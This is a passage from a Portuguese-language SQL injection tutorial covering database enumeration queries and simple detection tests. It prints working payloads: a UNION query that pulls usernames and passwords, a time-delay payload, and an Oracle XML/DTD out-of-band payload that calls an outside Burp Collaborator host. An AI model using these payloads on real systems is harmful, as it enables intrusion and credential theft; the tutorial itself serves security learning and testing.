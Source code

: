## Extra

* Para exibir a lista de tabelas do DB \(exceto DBs da Oracle\): 

  ```sql
  SELECT * FROM information_schema.tables
  ```

-Para exibir lista de colunas de uma tabela:

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

* Em DBs da Oracle, usa-se:

  ```sql
  SELECT * FROM all_tables -- listar tabelas
  SELECT * FROM all_tab_columns WHERE table_name = 'nome_da_tabela' -- listar colunas
  ```

* Em DBs da Oracle, um `SELECT` sempre deve conter um `FROM <nome_da_tabela>`. Para isso, uma tabela "padrão" para se usar é `DUAL`
* Para concatenar resultados \(colunas diferentes\) em uma coluna, pode-se usar o `||`: `' UNION SELECT username || '~' || password FROM users -- -` \(ORACLE e POSTGRE\) ou `'foo'+'bar'` \(MICROSOFT\) ou `'foo' 'bar'` e `CONCAT('foo','bar')` \(MYSQL\)

_Para ver mais, procure por "SQL Injection Cheat Sheets" como_ [_essa_](https://portswigger.net/web-security/sql-injection/cheat-sheet) _ou_ [_essa_](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)_._

## Como detectar uma SQL Injection?

Ferramentas como Burpsuite ou Sqlmap são capazes de detectar diversas vulnerabilidades relacionadas à SQL Injection de forma automática, mas também podemos realizar alguns testes simples para verificar se há falhas no sistema responsável pela comunicação com o banco de dados. Alguns desses testes são:

* Enviar aspas simples \(`'`\);
* Enviar condicionais como `OR 1=1` e `OR 1=2`;
* Enviar _payloads_ com _triggers_ de tempo \(_delay_\) como `'; IF (1=2) WAITFOR DELAY '0:0:10'--` e analisar o tempo de resposta;
* Enviar _payloads_ de OAST \([Out-of-band Application Security Testing](https://portswigger.net/blog/oast-out-of-band-application-security-testing)\) que causam certos _triggers_ e monitorar interações com sistemas externos.
  * Já que não explicamos sobre isso, segue um exemplo:

    ```sql
      '||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE root [ <!ENTITY % ekiom SYSTEM "http://pibw1f1nhjh3vpkgtx6mtfnt8kea2eq8dy1n.burpcollab'||'orator.net/"> %ekiom;]>'),'/l') from dual)||' 
      -- conecta com um servidor de colaborador do Burp (faz uso de XML/DTD)
    ```

## Links externos

